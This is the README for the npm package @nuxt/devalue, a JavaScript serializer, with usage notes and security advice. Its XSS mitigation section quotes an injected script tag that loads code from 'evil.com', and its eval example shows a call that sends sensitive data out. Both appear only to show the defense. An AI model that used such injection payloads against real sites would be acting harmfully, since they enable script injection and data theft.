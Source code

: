 # @nuxt/devalue

[![npm version][npm-version-src]][npm-version-href]
[![npm downloads][npm-downloads-src]][npm-downloads-href]
[![Circle CI][circleci-src]][circleci-href]
[![package phobia][package-phobia-src]][package-phobia-href]
[![bundle phobia][bundle-phobia-src]][bundle-phobia-href]

> Forked from [devalue](https://github.com/Rich-Harris/devalue) to log errors on non-serializable properties rather than throwing `Error`.

Like `JSON.stringify`, but handles

* cyclical references (`obj.self = obj`)
* repeated references (`[value, value]`)
* `undefined`, `Infinity`, `NaN`, `-0`
* regular expressions
* dates
* `Map` and `Set`
* `.toJSON()` method for non-POJOs

Try it out on [runkit.com](https://npm.runkit.com/@nuxt/devalue).

## Goals:

* Performance
* Security (see [XSS mitigation](#xss-mitigation))
* Compact output


## Non-goals:

* Human-readable output
* Stringifying functions or arbritary non-POJOs


## Usage

```js
import devalue from '@nuxt/devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.


## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {userinput:"\\u003C\\u002Fscript\\u003E\\u003Cscript src=\'https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js\'\\u003E"};
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0,eval)('(' + str + ')');
```


## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it *indirectly* so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0,eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.


## See also

* [lave](https://github.com/jed/lave) by Jed Schmidt
* [arson](https://github.com/benjamn/arson) by Ben Newman
* [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
* [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo


## License

[LIL](LICENSE)

<!-- Refs -->
[npm-version-src]: https://flat.badgen.net/npm/v/@nuxt/devalue/latest
[npm-version-href]: https://www.npmjs.com/package/@nuxt/devalue

[npm-downloads-src]: https://flat.badgen.net/npm/dm/@nuxt/devalue
[npm-downloads-href]: https://www.npmjs.com/package/@nuxt/devalue

[circleci-src]: https://flat.badgen.net/circleci/github/nuxt/devalue
[circleci-href]: https://circleci.com/gh/nuxt/devalue

[package-phobia-src]: https://flat.badgen.net/packagephobia/install/@nuxt/devalue
[package-phobia-href]: https://packagephobia.now.sh/result?p=@nuxt/devalue

[bundle-phobia-src]: https://flat.badgen.net/bundlephobia/minzip/@nuxt/devalue
[bundle-phobia-href]: https://bundlephobia.com/result?p=@nuxt/devalue
